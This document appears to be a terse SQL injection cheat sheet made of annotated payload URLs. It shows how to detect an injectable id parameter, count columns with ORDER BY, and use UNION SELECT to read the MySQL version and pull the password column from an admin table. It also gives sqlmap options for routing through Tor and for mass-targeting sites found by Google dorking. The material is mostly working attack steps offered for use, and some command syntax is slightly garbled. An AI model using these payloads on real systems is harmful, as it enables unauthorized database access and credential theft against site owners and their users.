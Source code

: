 				Identifying SQL Injection
-- end of url put a ' (quote)							http://ip/news.php?id=5'
-- error means website is vulnerable

				Finding Number of columns
-- Increment until you get a error 				http://ip/news.php?id=5 order by 1/*

				Checking Union Fuction
-- union all Number of columns found
-- http://ip/news.php?id=5 union all select 1,2,3/*

				Check MYSQL version
-- http://$ip/news.php?id=5 union all select 1,@@version,3/*

				Getting Column and Table Names
-- Table Names
-- http://ip/news.php?id=5 union all select 1,2,3 from admin/*
-- Column Names
-- http://ip/news.php?id=5 union all select 1,password,3 from admin/*

				SQLMap
-- Scan through Tor
	--tor-type=SOCKS5
-- List Databases
	--dbs


-- Use google Dorking
sqlmap -g “payload” –-random-agent -f –-batch –answer=”extending=N,follow=N,keep=N,exploit=n”n